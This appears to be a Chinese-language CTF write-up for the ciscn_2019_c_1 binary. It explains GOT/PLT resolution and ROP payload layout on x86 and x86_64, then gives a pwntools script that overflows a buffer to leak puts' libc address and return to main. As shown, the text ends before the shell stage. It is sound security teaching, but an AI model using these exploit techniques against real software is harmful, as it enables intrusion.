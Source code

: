### GOT and PLT 原理

libc库的内容是动态装载到进程空间的，里边的函数和变量的地址只能在运行时定位。这里涉及到GOT表(Global offset table, 全局偏移数组)和PLT表(Procedure linkage table, 过程链接表)，[外网文章](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)十分清晰明了地讲述了Linux使用这两个数据结构调用库函数的过程。下面记录一下我对这篇文章的理解。

![GOT and PLT]({{ site.url }}/assets/2020-07-11-got_plt.png)

任何对`puts()`的调用都会跳转到 PLT。与其说PLT是一个表，不如说这是一系列stub函数的集合。stub函数的jmp指令并非直接跳转到参数所表示的地址，而是取得这个地址处存储的值并跳转。在第一次调用`puts()`时，GOT存储stub函数中jmp的下一条指令的地址，导致程序从PLT开始又跳转回到PLT；在定位出`puts()`在libc中的地址之后，程序把地址写回去GOT。后续调用`puts()`仍然需要走到PLT的stub函数，但因为真正的地址已经找到并存储在GOT，可以直接跳转而无需回到PLT。

![Resolved GOT and PLT]({{ site.url }}/assets/2020-07-11-got_plt_resolved.png)

## 拼接 Payload

### x86 和 x86_64 的ROP差异

在 x86 和 x86_64 两种架构下、ROP 方法的 payload 组织方式有所不同：
- x86 非syscall: 
  - 参数通过栈传递，因此一般无需pop和ret指令；
  - 函数能直接访问在payload中预先防止放置的数据，是因为这数据作为些参数通过ebp被访问，而ebp会在函数prologue中设置
    - prologue: `push ebp;mov ebp, esp`
    - epilogue: `leave;ret`
  - 组织形式：`FUNCTION ADDR` + `RETURN ADDR` + `ARGUMENT_0...N`
    - 如果要实现执行多个函数，`RETURN ADDR`需要使用ROP gadget
- x86_64 非syscall:
  - 前6个参数依次[通过寄存器传递](https://stackoverflow.com/a/2538212/8706476)： RDI, RSI, RDX, RCX, R8, R9
  - gadget 均包含ret指令；
  - 组织形式：`GADGET_0 ADDR` + `ARGUMENT_0` + `GADGET_1 ADDR` + ... + `GADGET_N ADDR` + `ARGUMENT_N` + `FUNCTION ADDR`   

### Shell

为了输出`puts()`的地址，可以将`puts()`在GOT中的地址0x602020作为参数、调用`puts()`并打屏。因为amd64下参数一般通过寄存器传递，第一个参数存储在rdi，所以需要找到形如 `pop rdi;ret` 的gadgets地址去覆盖返回地址，紧跟着作为参数的0x602020(GOT)以及ret的返回地址0x4006e0(PLT)。为了能够第二次输入payload，还需要让程序正常地回到main：

```python
#!/usr/bin/python3.6
from pwn import *

elf = ELF("./ciscn_2019_c_1")
proc = process("./ciscn_2019_c_1")

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
log.info(f'puts: GOT={hex(puts_got)}; PLT={hex(puts_plt)}')

proc.sendlineafter("choice!\n", "1")
pop_rdi = 0x400c83
payload = b'\x00' * 0x58 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(elf.sym['main'])

proc.sendline(bytes(payload))

log.info(proc.recvuntil(b'Ciphertext\n'))
log.info(proc.recvuntil(b'\n'))

libc_puts = u64(proc.recvuntil(b'\n', drop=True).ljust(8, b'\x00'))
log.info(f'puts libc={hex(libc_puts)}')
```
